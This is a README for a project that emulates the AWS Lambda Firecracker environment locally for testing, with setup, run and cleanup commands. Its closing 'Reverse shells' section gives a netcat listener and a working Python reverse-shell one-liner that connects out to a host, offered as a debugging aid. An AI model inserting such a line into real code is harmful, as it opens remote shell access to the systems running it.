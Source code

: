 # Local Lambda

The purpose of this repo is to reproduce as closely as possible the conditions of running inside an AWS Lambda function container to facilitate testing and debugging.

## Install

AWS runs Lambda functions inside a Firecracker VM, so you will need to install [Firecracker](https://github.com/firecracker-microvm/firecracker/tree/main). As we are going to be using `firecracker-containerd`, the easiest way to install everything we need (providing you already have [Docker](https://docs.docker.com/engine/install/) installed) is by running the following commands from the [quick start guide](https://github.com/firecracker-microvm/firecracker-containerd/blob/main/docs/getting-started.md):

```bash
git clone https://github.com/firecracker-microvm/firecracker-containerd.git
cd firecracker-containerd
sg docker -c 'make all image firecracker'
sudo make install install-firecracker demo-network
sudo install -D -o root -g root -m755 -t /usr/local/bin ./_submodules/firecracker/build/cargo_target/x86_64-unknown-linux-musl/release/jailer
```

You may need to add the following lines to `/etc/cni/conf.d/fcnet.conflist` and remove the reference to `\etc\resolv.conf` if your host is using a systemd resolver in order for DNS lookup to work:

```json
      "dns": {
        "nameservers": [ "8.8.8.8" ]
      }
```

In order to extract the Linux kernel and rootfs image from the AMI AWS uses for Lambda, you will need to install [Terraform](https://developer.hashicorp.com/terraform/tutorials/aws-get-started/install-cli) and run the script `build_kernel_rootfs.sh`. This will spin up an EC2, build the kernel from source, attach a snapshot of the rootfs and create a `rootfs.img`. It will also set the root password to be empty and setup the `eth0` to point to the IP gateway `172.16.0.1` with static IP address `172.16.0.2`.

## Run in Firecracker

Patch the rootfs image by running:

```bash
./patch_for_firecracker.sh
```

Start up Firecracker with the following command:

```bash
./start_firecracker.sh
```

then, in another terminal, run the following command to start the VM:

```bash
./start_vm.sh
```

In the output from the first shell you will notice various attempts to get an API token from the magic 169.254.169.254 IP address which will, of course, fail as we are not running inside an AWS environment. After a few minutes, the login prompt will appear and you will be able to login as `root` with no password.

To clean up the runtime environment, run the following command:

```bash
sudo rm -rf /srv/jailer/*
```

## Run in firecracker-containerd

If you want to run a Lambda function, then you will need to run the VM in `firtecracker-containerd`. For this you need to use a the rootfs image that was built for `firecracker-containerd`.

```
bash
cp ../firecracker-containerd/tools/image-builder/rootfs.img default-rootfs.img
```

and initialize the containerd environment with

```bash
./init_firecracker_containerd.sh
```

This will create a 10G thinpool in `/var/lib/firecracker-containerd/snapshotter/devmapper`. You may want to adjust the sizes of the thinpool and the base image. Then start up `firecracker-containerd` with the following command:

```bash
sudo firecracker-containerd --config /etc/firecracker-containerd/config.toml
```

As a test you can run

```bash
sudo firecracker-ctr --address /run/firecracker-containerd/containerd.sock \
     image pull \
     --snapshotter devmapper \
     docker.io/library/debian:latest

sudo firecracker-ctr --address /run/firecracker-containerd/containerd.sock \
     run \
     --snapshotter devmapper \
     --runtime aws.firecracker \
     --rm --tty --net-host \
     docker.io/library/debian:latest \
     test     
```

To remove the image

```bash
sudo firecracker-ctr --address /run/firecracker-containerd/containerd.sock \
     image remove docker.io/library/debian:latest
```

To run a lambda function, we first have to build the image with Docker, save it locally and import it into `firecracker-containerd`:

```bash
docker build . -t test_lambda
docker save -o test_lambda.tar test_lambda
sudo firecracker-ctr --address /run/firecracker-containerd/containerd.sock \
     images import test_lambda.tar \
     --snapshotter devmapper
```

Then we can run the lambda function handler with

```bash
sudo firecracker-ctr --address /run/firecracker-containerd/containerd.sock \
     run \
     --snapshotter devmapper \
     --runtime aws.firecracker \
     --rm --tty --net-host \
     docker.io/library/test_lambda:latest \
     test
```

To invoke the Lambda function run this on the host:

```bash
ip=$(sudo cat /var/lib/cni/networks/fcnet/last_reserved_ip.0)
curl -XPOST "http://$ip:8080/2015-03-31/functions/function/invocations" -d '{}'
```

To clean up, make sure you have deleted all the containers and images and then remove the thinpool and runtime with

```bash
sudo rm -rf /var/lib/firecracker-containerd/snapshotter/devmapper
sudo rm -rf /var/lib/firecracker-containerd/runtime
```

You may also want to deactivate the thinpool

```bash
sudo dmsetup remove fc-dev-thinpool
```

and remove the loopback devices

```bash
sudo losetup | grep firecracker
```

with

```bash
sudo losetup -d /dev/loopX
```

## Reverse shells

One way to debug a Lambda function is to use a reverse shell. On the host, open a port `${port}` and run

```bash
sudo apt install ncat
nc -nvlp ${port}
```

If you are using a Python Lambda function, then including this line in your code will "phone home" to your host IP `${host}` and allow you to run a bash shell inside the Lambda function container:

```python
# From https://github.com/lukechilds/reverse-shell/blob/f6d08688544d459a6617176897f6ba8d30c3f300/api/index.js#L20
import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("${host}",${port})); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);
```

## TODO
* jailer for firecracker-containerd - why jailer=noop?
* memory limits
* read only filesystem except for /tmp
